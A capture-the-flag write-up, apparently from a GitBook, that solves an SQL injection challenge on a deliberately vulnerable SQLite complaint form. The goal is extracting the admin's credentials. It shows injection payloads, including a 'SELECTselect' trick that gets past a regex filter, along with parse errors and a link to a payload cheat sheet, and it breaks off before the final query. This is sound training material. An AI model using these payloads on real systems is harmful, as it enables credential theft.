 # #2

{% hint style="info" %}
#### The admin of this website made a GDPR form, but he doesn't reply to any complains.

Show the **admin** how you can leak information about users by stealing his **username** and **password**.

### Goal

Recover the admin information in a single query, the output **must** look like this

text: `admin:<email>:<password>`
{% endhint %}

Here is the code that we have:

```sql
-- run
CREATE TABLE complain (text TEXT);
-- run
INSERT INTO complain(text) VALUES ('' AND 0); /* I don't really care about your complains */

-- return
SELECT 
  text
FROM complain
LIMIT 5;
```

After looking for the terms that i didn't quite understand i found this article:

{% embed url="https://portswigger.net/daily-swig/isnt-it-ironic-exploiting-gdpr-laws-to-gain-access-to-personal-data" %}

I have to input an email so i tried `admin@test.com` and had `0` as the output

SQL evaluates `'admin@test.com' AND 0`:

* In SQL, logical `AND` evaluates both sides. Here, any non-empty string like `'admin@test.com'` is treated as `TRUE`.
* `0` is treated as `FALSE`.
* `TRUE AND FALSE` evaluates to `FALSE`, and in SQLite, `FALSE` is represented as `0`.

As a result, the value `0` is inserted into the `text` column.

So i tried escaping the user input to retrieve some informations without thinking too much at first:

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Key points that we can note:

* our "-" is blacklisted
* SELECT is not in the output

Those seem odd until i looked at the nodes that we're named "blacklist" and "Regex replace" (now it's not so odd anymore :joy:)

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Makes sense now, let's go deeper now that we know this

So i looked up different techniques to replace those inputs and tried the following payloads:

```sql
') UNION ALL (S||E||L||E||C||T email FROM users)# 
#and
') UNION ALL VALUES('admin@example.com')#
```

Did not work and i got pretty much the same error ->

```
Parse error near line 5: near "(": syntax error
  INSERT INTO complain(text) VALUES ('') UNION ALL (S||E||L||E||C||T email FROM 
                                     error here ---^
```

```
Parse error near line 5: near "''": syntax error
  VALUES ('') UNION ALL VALUES('admin@example.com')'' AND 0); /* I don't really
                                      error here ---^
```

So i took a step backwards and focused on only trying to escape properly all user inputs and got the hang of it with the following payload:

```
') ('
```

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

and luckily with a mistype i got the following output that caught my eye:

```
') UNION SELECTs('
```

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

so from there i told myself that it was the way to go to bypass the regex problem and got a valid input:

```
') UNION SELECTselect ('
```

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Then i went to the following cheat sheet to see some enumeration commands:

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md" %}
